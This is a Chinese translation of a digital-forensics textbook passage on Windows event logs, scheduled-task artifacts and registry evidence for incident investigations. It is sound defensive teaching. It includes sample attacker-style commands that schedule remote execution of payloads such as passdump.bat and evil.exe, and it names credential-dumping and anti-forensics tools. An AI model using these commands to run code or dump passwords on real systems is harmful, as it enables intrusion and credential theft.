        在进行调查时，我们经常使用与EID 7035事件记录的用户名作为重要的数据点或危险指标。例如，在某一案例中，我们能够根据启动服务的用户帐户，根据这些系统事件日志条目，区分PsExec实用程序的合法和未经授权的使用。
   ::：
   

平均系统中有数百个Windows服务，并且在正常系统操作期间许多服务会更改、启动和停止。根据我们的经验，通过简单地查看整个日志中的每个事件来查找“可疑”的服务是相当困难的。但是，如果您有已知的攻击者活动期间，例如在一系列登录事件附近，您可能会发现需要解析和审核的事件要少得多。在这些活动期间首次启动任何新服务都是值得跟进的。
    
- 注意：
  
    如果启用了进程跟踪，则安全事件日志将记录通过SCM（EID 601或4697）创建新服务的时间。
    
    ::：
    

您还可以搜索或过滤“已知恶意”的服务名称，这些名称是在分析其他系统时先前确定的。最后，您可能会发现攻击者或有时是杀毒软件在安装恶意服务二进制文件后某个时刻删除了它，但未删除注册表中相应的服务配置键。这将导致SCM每次尝试加载服务时记录故障事件。
    
根据我们之前的示例，如果PsExec在我们的样本环境中不是合法使用的，则该服务事件可能是分析其他系统或搜索聚合日志数据时的有用的妥协指标。同样的原则也适用于攻击者使用的任何用于恶意软件的持久性的服务名称 - 如果它是独特的，请将其用作审核事件日志时的指标。例如，一些版本的流行密码转储和哈希重放工具包Windows凭据编辑器在运行时创建名为WCE Service的服务，它可以作为一个简单而有效的IOC。
            
##### **其他日志分析技巧**

以下是有关日志分析的其他提示：
    
- 如果您正在跟踪系统上可疑但尚未分类的活动，请务必检查应用程序事件日志，以查看在您感兴趣的时间段内是否生成了任何杀毒警报。这可能有助于指出可疑文件，并甚至有助于确定您的调查线索是否由普通的非针对性恶意软件感染引起，或者是否需要进一步审核。
- 本节已经强调了事件日志中证据的取证价值。但是，如果最大日志大小太小，以至于它们经常滚动，您可能会发现没有足够的信息可用于分析。磁盘空间不昂贵 - 大多数用户不会注意到缺少500MB或1GB的数据 - 因此请考虑审核和增加日志大小限制，以提高在所有Windows端点上的保留能力。
- 如果从Windows XP或Server 2003系统获取事件日志，则可能会发现Event Viewer或其他分析工具报告EVT文件已损坏。这是一个广为人知的问题，可以通过以下网站提供的免费FixEVT实用程序轻松修复：
- **在网上获取**
  
    [murphey.org/fixevt.html](http://murphey.org/fixevt.html)
    

#### **事件日志分析工具**

事件日志分析工具提供了获取、查看、搜索、排序和过滤EVT和EVTX文件的能力，因为它们本身不是“人类可读的”。我们在下表中总结了一些我们最喜欢的工具。

| 工具名称 | 功能 | 免费/付费 | URL |
| --- | --- | --- | --- |
| Event Viewer | 允许您打开获取的事件日志文件，并通过关键字或XPath搜索/排序/过滤。 | 免费 | 内置于Windows中 |
| PSLogList | 从本地或远程运行的系统中将事件日志转储到纯文本分隔文件中。 | 免费 | http://technet.microsoft.com/ en-us/sysinternals/ bb897544.aspx |
| 日志分析器 | 允许您对本地事件日志发出SQL查询。 | 免费 | http://www.microsoft.com/en-us/download/details.aspx?id=24659 |
| Event Log Explorer | 允许您加载、合并、过滤和搜索事件日志。 大型日志文件的高性能。 | 付费 | http://www.eventlogxp.com/ |
| LfLe | 从磁盘映像中启发式地恢复Windows事件条目。 | 免费 | http://github.com/williballenthin/LfLe |
| Python-Evtx | 用于EVTX格式事件日志的Python解析器。 | 免费 | http://www.williballenthin.com/evtx/index.html |
| Plaso | 证据解析引擎，旨在促进时间线开发 - 支持EVT和EVTX文件。 | 免费 | http://code.google.com/p/plaso |

请注意，某些工具（例如PSLogList）只能从运行的系统中获取和解析事件日志。其他工具（例如Event Viewer）可以加载从取证中复制的原始日志文件。

值得注意的是，Microsoft自己内置的Event Viewer在Windows Vista和操作系统的后续版本中得到了显着改进。尽管它仍然难以显示和搜索大型日志文件，但它具有出色的搜索和过滤功能 - 尤其是与旧版本相比 - 并在紧急情况下表现出色。

- 注意：
  
    让我们糊涂了！事件日志条目存储在UTC时间中。但是，不同的事件日志分析工具以不同的方式转换这些时间戳 - 这可能会导致问题，如果您试图对齐各种证据来源。例如，Windows事件查看器显示事件的本地系统时间，而不管日志的原始来源如何。为避免头痛和错误，请始终双重检查工具如何处理时间戳 - 并将取证分析系统的时区设置为UTC时间，以使事情更容易。
    
    ::：
    

### **计划任务**

Windows任务计划程序提供自动在特定日期和时间或定期执行程序的功能。它在功能上类似于大多数基于Unix的操作系统中内置的cron实用程序。应用程序可以通过Windows API编程方式创建计划任务；实际上，许多应用程序这样做以启用软件更新的定期检查等功能。用户可以通过“at”命令或“schtasks”命令通过控制台创建计划任务。 Windows Vista和更高版本还提供了任务计划程序的更新实现，包括用于创建、编辑和删除任务的管理控制台插件。

攻击者经常使用计划任务在远程受损系统上执行恶意软件，而无需“帮助程序”（例如PsExec），这可能会增加检测的可能性。当攻击者的访问权限仅限于命令行时，这种技术尤其常见。

#### **使用“at”命令创建任务**

使用“at”命令是创建计划任务的最简单方法。让我们看一些简单的示例来说明它的用法。请注意，“at”命令的使用需要本地管理员特权（用于本地创建的任务）或目标主机（用于远程创建的任务）的最低要求：

- at 16:25 "C:\WINDOWS\evil.exe"
在下次时钟为16:25时运行“evil.exe”一次。
- at 10:25 "C:\temp\beacon.exe" /every:m,t,w
在每周一、周二和周三的10:25运行“beacon.exe”。
- at \\alpha 08:00 "C:\RECYCLER\passdump.bat"
在“alpha”上运行“C:\RECYCLER\passdump.bat”，其本地系统时间为08:00。

注意第三个示例的有趣之处？它在远程系统（alpha）上创建了一个任务而不是在本地运行 - 是的，您可以这样做。请注意，C:\RECYCLER\passdump.bat必须存在于alpha上，而不是源系统，才能正常工作。还要注意，创建远程计划任务需要远程系统上的管理员特权；如果您尚未使用适当的凭据进行身份验证，则“at”命令将返回权限被拒绝的错误。

在前面的示例中，您可能会想知道“at”命令使用的时区是什么。指定的时间是“at”作业计划系统上的本地时间。在某些情况下，您甚至可能不知道系统的时区 - 尤其是对于全球基础设施的远程系统。攻击者经常在安排远程任务之前运行命令net time \\targetHost，以检查系统的本地时间。这是安排任务的有效方法 - 没有必要确定或知道任何系统上的时区。

创建一些计划任务后，您可以通过运行“at”命令而不需要任何其他参数（例如“at”或“at \\targetSystem”）在本地或远程系统上列出现有任务。

- 注意：
  
    通过“at”命令创建的计划任务（本地或远程）在SYSTEM内置帐户的上下文中运行。攻击者经常利用此功能来执行恶意软件，如某些密码转储工具，这些工具可能需要比Vista和Windows的普通管理员用户更高的权限版本。
    

最后，您会注意到，“at”创建的计划任务都分配了一个ID - 从第一个活动的计划任务开始，以“1”开始，并逐渐增加以创建后续的任务。您可以通过运行来列出现有作业的详细信息

```
at #

```

其中#是感兴趣的ID。您也可以通过运行来删除作业

```
at # /delete

```

- 注意：
  
    名字里有什么？使用“at”实用程序创建的计划任务始终没有名称。这些作业基于其ID（At1、At2等）进行引用。相比之下，通过Windows API或“schtasks”创建的任务可以具有描述性名称。不用说，未命名的任务并不总是恶意的 - 系统管理员经常使用“at”命令进行各种维护和自动化目的。
    

有关“at”命令的语法的进一步参考，请参阅Microsoft的TechNet页面：

- **在网上获取**
  
    [technet.microsoft.com/en-us/library/bb490866.aspx](http://technet.microsoft.com/en-us/library/bb490866.aspx)
    

使用schtasks命令创建任务

“schtasks”命令是Microsoft添加到Windows XP Professional、Windows Server 2003和所有后续版本操作系统中的一个更强大的命令行实用程序，用于管理计划任务。它支持创建具有描述性名称的任务、配置它们执行的帐户上下文、启用复杂的时间表等许多功能。

攻击者比“at”更少使用“schtasks”——它是一个更复杂的命令，并且它的大多数优点仅适用于合法使用。有关其用法的更多详细信息，请参阅Microsoft的TechNet页面上的“schtasks”：

- **GO GET IT ON THE WEB**
  
    [technet.microsoft.com/en-us/library/bb490996.aspx](http://technet.microsoft.com/en-us/library/bb490996.aspx)
    
- 注意：
  
    要注意“schtasks”命令和“at”命令之间的一个重要区别。在没有任何参数的情况下运行“schtasks”会列出由“schtasks”和“at”创建的所有计划任务。但是，在没有任何参数的情况下运行“at”只会列出由“at”创建的计划任务。
    

#### **证据**

当前计划任务的证据以及先前执行的记录可以从运行中的Windows系统或“死”驱动器映像中轻松获取。您需要的文件和日志在本节中详细说明。

##### **.job文件**

计划任务的配置数据存储在%SYSTEMROOT%\Tasks目录中的.job文件中——每个任务一个文件。这些文件以专有文件格式编码，文档化在以下TechNet文章中：

**GO GET IT ON THE WEB**

[msdn.microsoft.com/en-us/library/cc248285(v=prot.13).aspx](http://msdn.microsoft.com/en-us/library/cc248285(v=prot.13).aspx)

在较旧的Windows版本（Vista之前），任务计划程序服务在任务成功完成后删除.job文件，从而显着降低了从先前执行的任务中恢复这些工件的可能性。在Vista和更高版本中，.job文件可以保留，直到任务计划程序服务停止或重新启动，通常在关闭或重新启动时。

##### **任务计划程序日志**

Windows任务计划程序服务记录以前执行的任务的开始时间和完成时间，记录到名为SchedLgU.txt的纯文本文件中。此文件增长到32KB的最大值，然后滚动。

- **%SYSTEMROOT%\SchedLgU.txt** Windows 2000、Server 2003和XP
- **%SYSTEMROOT%\Tasks\SchedLgU.txt** Windows Vista、2008和更高版本

Windows Vista、7和Server 2008增加了许多专业事件日志——包括一个负责跟踪任务计划程序服务活动的日志：Microsoft-Windows-TaskScheduler%4Operational.evtx。正如我们将在下一节中讨论的那样，此日志包含比SchedLgU.txt更多的证据，包括由计划任务执行的进程的完整路径以及注册或创建任务的用户帐户。

- 注意：
  
    您可以通过wevtutil实用程序轻松启用任务计划程序日志：wevtutil sl Microsoft-Windows-TaskScheduler/Operational /e:True。
    

最后，请确保获取系统安全事件日志（Security.evt或Security.evtx）。如果启用了进程跟踪，则它可以是计划任务的另一个有用的证据来源。

#### **分析**

现在，您知道如何从系统获取所有计划任务相关的工件，我们可以专注于如何解析和解释它们的内容。在本节中，我们讨论了.job文件的分析以及两种类型的计划任务日志中的条目。

##### **分析.job文件**

如前所述，您最有可能从将来或定期运行的计划任务中恢复.job文件。因此，对于感兴趣的任务，如何分析其相应的.job文件？

在紧急情况下，您可以始终使用十六进制编辑器或“字符串”命令查看.job文件的内容（请参见图12-11）。关键项目，例如用户信息和由任务启动的任何内容的完整路径通常是“人类可读的”，并且会引人注目。

但是，我们建议您使用适当解析.job文件格式并重建其中的配置数据的工具。Jamie Levy的jobparser.py最近发布，对所有主要版本的Windows都进行了优秀的.job文件分析（请参见图12-12）。


- **在网络上获取它**
  
    [gleeda.blogspot.com/2012/09/job-file-parser.html](http://gleeda.blogspot.com/2012/09/job-file-parser.html)
    
- 注意
  
    寻找其他证据表明在感兴趣的系统上执行了计划任务吗？ %SYSTEMROOT%\Tasks 目录的最后修改时间通常对应于任务的最新创建或完成（由于添加或删除 .job 文件而导致）。您还可能发现任务计划程序服务的注册表键在最近的任务执行期间被最后修改。
    

##### **分析 SchedLgU.txt**

SchedLgU.txt 日志可以是以前执行的任务的有用来源，实际上，当分析 Windows 2000、Windows XP 和 Server 2003 系统时，这是唯一可用的资源。幸运的是，分析此日志很简单，不需要特殊工具（尽管您应该知道其内容已编码为 Unicode）。图12-13 是从 Windows XP 系统中提取的 SchedLgU.txt 的摘录。


根据日志显示的内容，我们可以收集到有关两个日志任务的一些信息：

- 一个未命名的计划任务At2.job在2009年9月25日凌晨2:26:00执行了a.bat，运行至凌晨2:34:13完成。
- 基于我们对任务命名约定的理解，我们可以进一步推断，在At2.job创建时，另一个名为At1.job的任务必须存在。
- 一个命名的计划任务SCOM 2007 Agent Resume Task.job在2010年9月14日下午2:55:00执行了sc.exe，并在同一秒完成。
- 两个任务都在没有返回错误的情况下运行，日志中引用了退出代码0。

那么还缺少什么？不幸的是，SchedLgU.txt没有记录创建计划任务的用户帐户。日志仅捕获任务执行的文件名（例如a.bat）-没有路径信息或参数。同样，我们无法知道其他任务是否在%SYSTEMROOT %\ system32中执行了合法的sc.exe，还是在不同路径中执行了不同的程序。

- 注意：
  
    请注意，计划任务也可以通过使用命令解释器间接执行其他程序。例如，以下任务将通过cmd.exe启动cscript.exe，然后解释VBS脚本：**at 12:34 \\beta“cmd.exe /c cscript.exe c:\temp\foo.vbs”**。在这种情况下，SchedLgU.txt只记录任务执行了cmd.exe。
    

还有一个需要注意的SchedLgU.txt的怪癖：它不记录UTC中的事件，而是记录本地系统时间。为了保持证据的一致性，您可能需要进行一些时区转换（并考虑夏令时）。此外，您可能会注意到，尽管日志通常按时间顺序排列，从最早的任务到最近的任务，但有时会在文件的中点“滚动”。鉴于日志很小，请确保从头到尾简要浏览它，以便正确确定其事件所涵盖的日期范围。

尽管存在一些限制，但SchedLgU.txt是一种非常适合大规模分析的证据来源，因为其大小较小，格式简单。我们经常从调查的企业中获得此文件，以便主动查找妥协迹象。在受管理的企业网络中，未命名的计划任务，运行奇怪命名的批处理脚本的任务以及运行cmd.exe解释器的任务通常是不典型的。识别此类任务可以产生有用的线索，以供进一步分析。

##### 在事件日志中分析计划任务

Windows任务计划程序操作日志Microsoft-Windows-TaskScheduler/Operational.evtx提供比SchedLgU.txt更详细的证据，并很好地弥补了其作为证据来源的缺点。让我们看看这个日志如何捕获在名为DCSERVER2008的Windows 2008服务器上创建和执行简单任务的过程，如下表所示：

| #
| 日期和时间UTC | 事件信息
| 事件ID
|
| --- | --- | --- | --- |
| 1 | 03/01/2012 10:03:40 | 用户“CORPDOMAIN\superuser”注册了任务计划程序任务“\At1” | 106 |
| 2 | 03/01/2012 10:03:40 | 用户“CORPDOMAIN\superuser”更新了任务计划程序任务“\At1” | 140 |
| 3 | 03/01/2012 10:05:00 | 任务计划程序启动了“{3843A931-B021-98DC-2F3F-940C4EB09011}”实例的任务“\At1”，因为到达了时间触发条件 | 107 |
| 4 | 03/01/2012 10:05:00 | 任务引擎“S-1-5-18:NT AUTHORITY\System:Service:”收到了来自任务计划程序服务的消息，请求启动任务“\At1” | 319 |
| 5 | 03/01/2012 10:05:00 | 任务计划程序以用户“CORPLOCAL\DCSERVER2008$”的身份启动了“{3843A931-B021-98DC-2F3F-940C4EB09011}”实例的“\At1”任务 | 100 |
| 6 | 03/01/2012 10:05:00 | 任务计划程序在“\At1”任务的实例“{3843A931-B021-98DC-2F3F-940C4EB09011}”中启动了操作“c:\windows\system32\drop.bat” | 200 |
| 7 | 03/01/2012 10:05:00 | 任务计划程序启动了任务“\At1”，实例“C:\Windows\SYSTEM32\cmd.exe”，进程ID为8192。 | 129 |
| 8 | 03/01/2012 10:05:00 | 任务计划程序成功完成了任务“\At1”，实例“C:\Windows\SYSTEM32\cmd.exe”，操作“{3843A931-B021-98DC-2F3F-940C4EB09011}” | 201 |
| 9 | 03/01/2012 10:05:00 | 任务计划程序成功完成了用户“CORPLOCAL\DCSERVER2008$”的“{3843A931-B021-98DC-2F3F-940C4EB09011}”实例的“\At1”任务 | 102 |

第1和第2行发生在用户CORPDOMAIN\superuser于2012年3月1日10:03:40 UTC创建新的未命名计划任务(At1)时。第3到第9行提供了任务在10:05:00执行和完成的详细信息。请注意，第6行中的事件ID 200提供了At1实际启动的完整路径，即c:\ temp\a.bat，第7行提供了执行的相应进程ID，即命令解释器cmd.exe。这些关键信息可以帮助您确定可疑任务是否需要进一步调查，并作为指标，如果确认为恶意，则应进行进一步调查。

如果启用了进程审计，安全事件日志也将记录计划任务的创建。(启用这个非常有用的审计设置的另一个原因。)进程审计在Windows XP和Server 2003下将计划任务的创建记录在事件ID 602下，在Vista、Server 2008和Windows 7下将其记录在事件ID 4698下。以下是来自Windows Server 2003系统的EID 602事件示例：

```
计划任务已创建：
文件名：C:\\WINDOWS\\Tasks\\At1.job
命令：C:\\temp\\test.exe
触发器：在2012年3月10日上午3:03。
时间：2012年3月10日上午3:03:00
标志：0x1A00002
目标用户：WEST\\CorpAdmin
由：
用户：CorpAdmin
域：WEST
登录ID：(0x0,0x230CA3)

```

这个单独的条目涵盖了与计划任务相关的所有关键细节：命令的完整路径、启动时间和创建它的用户。

### **WINDOWS注册表**

注册表作为Windows操作系统和运行在其上的应用程序的主要配置数据数据库。它最初的设计是为了摆脱程序维护的众多.ini和其他基于文本的配置文件(经常以不一致的格式和位置)和散布在整个系统中。随着操作系统和应用程序的复杂性不断增加，注册表中跟踪的信息范围以及可以从中获取的取证证据也越来越多。

整本书都可以并且已经致力于探索注册表中的所有取证工件。为了本章的目的，我们将快速让您了解注册表的结构和一些“关键”术语(关键字)。然后，我们将突出一些我们在调查Windows系统时使用的最有用的基于注册表的证据来源。

#### **证据**

我们开始介绍构成注册表的证据来源——即需要获取哪些文件和数据以进行后续分析。在提供注册表结构概述后，我们探讨了它在磁盘上的存储方式与在运行中的系统上的访问方式之间的区别。接下来，我们讨论了可用于注册表中的时间元数据以及如何将其纳入分析中。最后，我们讨论了关于32位应用程序如何在64位系统上访问注册表的一些重要警告。一旦完成这些，您就可以进入有趣的分析部分了。

##### **注册表介绍**

注册表被组织成许多系统和特定用户的“hive”。一个hive通常存储在磁盘上的单个文件中。这些hive文件不可读，但可以使用我们将在本节中介绍的各种工具进行解析。正如您将看到的那样，系统和用户hive都可以包含丰富的取证证据，因此获取它们很重要。当一个感兴趣的用户账户交互式地登录到系统时，这一点尤为重要，因为他们用户配置文件中的注册表hive可以提供重要的活动洞察力。

Windows在路径%SYSTEMROOT%\system32\config中维护五个主要的注册表hive：SYSTEM、SECURITY、SOFTWARE、SAM和DEFAULT。请注意，这些是实际的hive文件名——它们没有扩展名。我们将在本节后面提供有关这些hive及其内容的更多详细信息。

正如您所预期的那样，特定于用户的注册表hive存储在每个用户的各自配置文件目录中。两个用户hive，NTUSER.DAT和USRCLASS.DAT，存储在不同的位置，具体取决于Windows的版本，如下所列。

**Windows XP和Server 2003**

- \Documents and Settings\<user>\NTUSER.DAT
- \Documents and Settings\<user>\Local Settings\Application Data\Microsoft\Windows\USRCLASS.DAT

**Windows Vista、7和Server 2008**

- \Users\<user>\NTUSER.DAT
- \Users\<user>\AppData\Local\Microsoft\Windows\USRCLASS.DAT

请注意，您需要使用具有原始磁盘访问权限的取证映像或采集工具来复制注册表hive文件，而不是使用Windows资源管理器简单地复制它们。

- 注意：
  
    请记住，Windows仅维护与那些已交互式登录到系统的用户的配置文件数据。如果用户仅建立了网络登录（例如挂载共享），则系统不会包含该特定帐户的配置文件目录或注册表hive。顺便说一下，这意味着缺少用户配置文件目录并不表示该用户从未在系统上进行过身份验证。
    

注册表中的信息以树形结构存储，可以分解为三个组件：键、值和数据。如果与文件系统进行比较，将*键*类比于目录路径，将*值*类比于文件名，将*数据*类比于文件内容。

图12-14显示了Windows本机注册表编辑器（regedit.exe）中注册表的键、值和数据示例。如图所示，HKEY_LOCAL_MACHINE\SOFTWARE\Cygwin\setup\是键，rootdir是所选的值，C:\cygwin64是数据。

注册表数据可以以各种编码方式存储——事实上，注册表存储每个值的“值类型”字段，指定其相应数据的结构。这些类型包括从简单数字和字符串到列表甚至二进制编码数据的所有内容。因此，虽然某些注册表值和数据是可读的，但其他数据则需要使用特定的解码工具。我们将在本节中讨论这些工具，并在末尾提供推荐的注册表分析工具概述。您可以在以下网站上了解有关注册表值类型的更多信息：

- **在Web上获得它**
  
    [msdn.microsoft.com/en-us/library/windows/desktop/ms724884(v=vs.85).aspx](http://msdn.microsoft.com/en-us/library/windows/desktop/ms724884(v=vs.85).aspx)
    


### **注册表文件和映射**

我们之前指出，注册表是通过多个“hive文件”维护的，包括用户特定的hive和系统范围内的hive。然而，运行中的Windows将这些hive的内容映射到以一组“根键”开头的树形结构中。如果您从运行中的系统获取注册表内容，例如通过实时响应工具包，您可能会花费大部分时间在这些键的层次结构中查看证据。根注册表键如下：

- HKEY_LOCAL_MACHINE（又称HKLM）
- HKEY_USERS（又称HKU）
- HKEY_CURRENT_USER（又称HKCU）
- HKEY_CURRENT_CONFIG（又称HKCC）
- HKEY_CLASSES_ROOT

那么各种hive文件在这些根键中如何表示呢？我们将从HKLM开始，因为它非常简单：HKLM\ Software、HKLM\
Security、HKLM\System和HKLM\SAM子键包含了SOFTWARE、SECURITY、SYSTEM和SAM
hive的内容，分别。

HKEY_USERS包含以下子键：

- HKU\.DEFAULT映射到DEFAULT hive。
- HKU\{SID}为系统上每个用户安全标识符（SID）存在。每个SID的子键映射到相应用户的NTUSER.DAT hive文件。
- HKU\{SID}_Classes为系统上每个用户SID存在。每个SID的子键映射到相应用户的USRCLASS.DAT hive文件。

HKEY_CURRENT_USER只是指向当前登录到控制台的用户的HKEY_USERS\{SID}的符号链接。

HKEY_CURRENT_CONFIG映射到HKEY_LOCAL_MACHINE\SYSTEM\
CurrentControlSet\Hardware Profiles\XXXX，其中XXXX是表示活动配置文件的四位数字。在前面提到的路径中引用的CurrentControlSet本身是一个指向
HKLM\SYSTEM\ControlSetXXX的链接，其中XXX是表示活动配置控制集的三位数字。

最后，HKEY_CLASSES_ROOT呈现为从
HKLM\Software\Classes和HKEY_CURRENT_USER\Software\Classes合并的一组子键。有关如何创建此合并视图的详细信息，请参阅以下网页：

- **GO GET IT ON THE WEB**
  
    [msdn.microsoft.com/library/windows/desktop/ms724475.aspx](http://msdn.microsoft.com/library/windows/desktop/ms724475.aspx)
    

不用担心试图将所有这些都记在脑中 - 它太多了。但在审查系统的注册表证据时，请注意这些映射。如果您处理“死”hive文件，则无法找到任何虚拟键路径，例如HKEY_CURENT_CONFIG或
HKEY_CURRENT_USER，或者甚至一些子键，例如仅在活动系统上存在的
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet。

#### **注册表时间戳**

与文件系统元数据不同，注册表键仅包含一个时间戳。每个键都有一个关联的LastWriteTime，当它创建时设置，并在添加、删除或以其他方式更改键下直接的任何值时进行更新。

- 注意：
  
    但是，对子键值的更改不会影响其父键的最后修改时间戳。例如，向HKLM\Path\To\Sample\RegKey\添加值Test会更新RegKey的最后修改时间，但不会更新Sample、To和Path键的最后修改时间。
    

请注意，没有“创建”或“访问”时间戳。此外，注册表时间戳仅与*键*相关联，而不是其中的值或数据。这些限制意味着，缺少其他上下文，无法确定键的LastWriteTime是否代表其创建时间或后续更新，也无法证明键中的哪个值发生了更改。分析人员可能必须通过评估和关联其他工件（例如来自文件系统或事件日志的证据）来推断键的LastWriteTime的重要性。

例如，让我们看一个指定在系统启动时执行的程序的常见自动运行键：HKEY_LOCAL_MACHINE\Software\Microsoft\
Windows\CurrentVersion\Run\。

| 值 | 数据 | 键 LastWriteTime |
| --- | --- | --- |
| VMWare工具 | C：\ Program Files \ VMware \ VMware工具 \ VMwareTray.exe | @August 30, 2012 02:34:30 |
| Adobe Reader速度启动器 | C：\ Program Files \ Adobe \ Reader 9.0 \ Reader \ Reader_sl.exe | @August 30, 2012 02:34:30 |
| winupdat | C：\ windows \ addins \ winupdat.exe | @August 30, 2012 02:34:30 |

该表显示了\ Run \键下的三个值：VMWare工具，Adobe Reader速度启动器和winupdat。最后一个听起来可疑-我们能确定它何时添加到注册表中吗？没有其他支持证据是不行的。每行中的LastWriteTime时间均指持有这三个值的（相同）键，如果其中任何值或其中的数据更改（或添加或删除其他值），则会更新该键。当然，如果我们可以使用文件系统元数据或其他证据证明C：\ windows \ addins \ winupdat.exe是在已知攻击者活动期间的2012-08-30 02:34:30左右创建的，我们可能会合理地得出结论，该键是在添加winupdat值时最后修改的。

在注册表中可用的有限时间元数据有一个缺点- Windows 经常在系统更新和服务包安装期间更新大量注册表键的LastWriteTime，有时甚至从重新启动。当进行注册表时间轴分析并在键的LastWriteTime周围进行过滤时，这通常会很明显。如果您看到大量其他键 - 特别是在相同或嵌套的路径内 - 在同一秒或分钟内更新，则很可能会看到操作系统，软件更新甚至安全应用程序（例如防病毒软件）引起的更改。

那么LastWriteTime的故意更改呢？在我们讨论NTFS和文件系统元数据时，我们讨论了“时间践踏”-攻击者可以通过该过程操纵文件的时间戳以阻止取证分析。 Windows API没有为更改键的最后修改时间提供专门设计的方法，该方法等同于文件元数据的SetFileTime函数。因此，我们很少看到攻击者尝试直接修改注册表时间戳。但是，截至本文撰写之时，至少有一个概念证明工具已经证明，如果具有系统权限，则应用程序可以将注册表键的时间戳设置为任意值。尚不清楚这种反取证技术在未来是否会更广泛地使用。您可以在以下网站阅读有关该工具（Joakim Schicht的SetRegTime）的更多信息：

:::▶在网络上获取它

[code.google.com/p/mft2csv/wiki/SetRegTime](http://code.google.com/p/mft2csv/wiki/SetRegTime)

:::

#### 注册表反射和重定向

在深入探讨一些有用的注册表键示例之前，我们需要涵盖一个最后且重要的主题-反射和重定向。 Windows WoW64子系统负责确保64位操作系统上的32位兼容性，“反映”或“重定向”32位应用程序尝试访问某些注册表路径。这对于应用程序是透明的，允许它继续使用在32位操作系统上存在的相同硬编码注册表路径。

我们将使用其中一个最常受影响的路径作为示例，以说明其工作原理。在Windows的64位版本上，64位应用程序可以访问注册表路径HKEY_LOCAL_MACHINE \ SOFTWARE。 32位应用程序可能尝试访问相同的路径，但是WOW64将透明地将其重定向到路径HKEY_LOCAL_MACHINE \ SOFTWARE \ WoW6432Node。微软在MSDN文章“ WOW64受影响的注册表键”中提供了这些重定向的注册表路径列表-它们都使用相同的命名约定WoW6432Node用于32位兼容的子键：

:::▶在网络上获取它

[msdn.microsoft.com/en-us/library/windows/desktop/aa384253(v=vs.85).aspx](http://msdn.microsoft.com/en-us/library/windows/desktop/aa384253(v=vs.85).aspx)

:::

为了进一步复杂化问题，WOW64在Windows Server 2008 R2和Windows 7之前的版本上执行“反射”而不是（并且除了）重定向。反射过程涉及同步应用程序可能需要在32位和64位注册表视图之间共享的注册表子键，值和其中的数据的副本。这在MSDN文章“注册表反射”中进一步详细说明：

:::▶在网络上获取它

[msdn.microsoft.com/en-us/library/windows/desktop/aa384235(v=vs.85).aspx](http://msdn.microsoft.com/en-us/library/windows/desktop/aa384235(v=vs.85).aspx)

:::

重定向和反射可能对您的调查过程产生重大影响。如果您使用32位实用程序在活动系统上收集和分析注册表数据，则可能会错过WOW64将无法访问的整个子键集。同样，重要的是要认识到在标记为WoW6432Node的子键下遇到的注册表路径的含义，在时间轴分析或其他取证中可能会遇到这些子键。

分析

那么，您可以从注册表中恢复哪些类型的证据？更好的问题可能是，您无法获得哪些证据？为了本章的目的，我们将介绍在我们的事件响应调查中发现最有用的一些键和值。此部分分为以下几个部分，以便易于参考：

- 系统配置注册表键
-Shim缓存
-常见的自动运行注册表键
-用户蜂房注册表键

#### **系统配置注册表键**

Windows提供控制面板和许多其他基于GUI的解决方案来配置系统。幸运的是，许多这些设置实际上都在一个“单一”地方保存和组织-当然是注册表。通过检查正确的键，您可以恢复从计算机的操作系统安装日期到当前防火墙策略或本地用户组成员资格的所有内容。您只需要知道应该查找哪里，鉴于注册表的大小和复杂性，这并不总是直观的。

在以下表格中，我们总结了一些我们发现在收集基本系统信息和网络，用户和安全设置时最有帮助的注册表键。其中一些键是编码的，不容易人类阅读-在这种情况下，我们提供了有关其他参考资料的脚注，并且我们还将在本章末尾的注册表部分中涵盖各种分析工具，这些工具可以大大简化这些任务。

| - | 基本系统信息 | - |
| --- | --- | --- |
| Key | Value(s) | 描述 |
| HKLM\System\CurrentControlSet\Control\Computername\ | Computername，ActiveComputername | Computername 包含配置的计算机名称。如果机器名称更改但尚未重新启动，则可能与 ActiveComputername 不同。 |
| HKLM\Software\Microsoft\Windows NT\Currentversion\ | ProductName，CurrentVersion，SubVersionNumber，CSDVersion，InstallDate，SystemRoot，(...) | 关于Windows版本（包括服务包）、操作系统安装时间、系统根路径（例如C:\Windows）等基本信息。 |
| HKLM\System\CurrentControlSet\Control\TimeZoneInformation\ | DaylightName，DaylightStart，DaylightBias，StandardName，StandardStart，StandardBias，Bias，ActiveTimeBias，StandardBias | 时区和与UTC的偏差。 |
| HKLM\Software\Microsoft\Windows\Currentversion\Uninstall\{Application_Name} | {Multiple} | 在“添加/删除程序”列表中可见的已安装应用程序列表。 |
| HKLM\System\ CurrentControlSet\ Enum\USBSTOR\ | {Multiple} | 连接到系统的每个可移动 USB 存储设备的子键；可以提供序列号、硬件制造商和其他信息。 |
| HKLM\System\MountedDevices\ | {每个持久驱动器字母的多个值} | 每个带有驱动器字母的设备将具有两个值（例如，\DosDevices\C: 和 \??\Volume{GUID}）。 |
| HKU\{SID}\Software\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2\{GUID} | N/A | 每个由用户连接的卷 GUID 的子键。它可以与 HKLM\System\MountedDevices\ 中的值相关联。 |

|  | 网络信息 |  |
| --- | --- | --- |
| 键 | 值 | 描述 |
| HKLM\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\{接口名称}\ | DhcpServer、NameServer、IPAddress、DefaultGateway等 | \Interfaces\下的子键为每个TCP/IP接口，这些子键下的值包含当前网络适配器的配置。 |
| HKLM\Software\Microsoft\Windows NT\CurrentVersion\NetworkList\Profiles\{GUID}\ | Category、DateCreated、DateLastConnected、Description、ProfileName等 | 系统之前连接过的网络配置文件。对于无线网络，ProfileName和/或Description通常与SSID匹配。 |
| HKLM\System\CurrentControlSet\Services\LanmanServer\Shares\ | {Share_Name} | 每个本地共享的一个值；每个值的数据包括共享路径。 |
| HKLM\System\ CurrentControlSet\Services\ SharedAccess\Parameters\ FirewallPolicy\ | {Multiple} | 标准、公用和域配置文件下的Windows防火墙设置的子键。 |

|  | 用户和安全信息 |  |
| --- | --- | --- |
| 关键字 | 值 | 描述 |
| HKLM\Security\Policy\ | PolAdtEv，PolAcDmS，PolPrDmS，PolPrDmN | 安全审计策略设置，机器SID，域SID和域名。 |
| HKLM\Software\ Microsoft\Windows NT\ CurrentVersion\ProfileList\ {SID}\ | ProfileImagePath | 每个已登录到系统的用户SID的子键。给定SID子键下的ProfileImagePath值将指示用户配置文件文件夹的路径，这可以帮助您将SID转换为用户名。 |
| HKLM\Software\ Microsoft\Windows\ CurrentVersion\ Group Policy\{SID}]\ GroupMembership\ | Group# | 每个用户SID的子键-在GroupMembership下，每个Group#值指定用户所属的组SID。 |

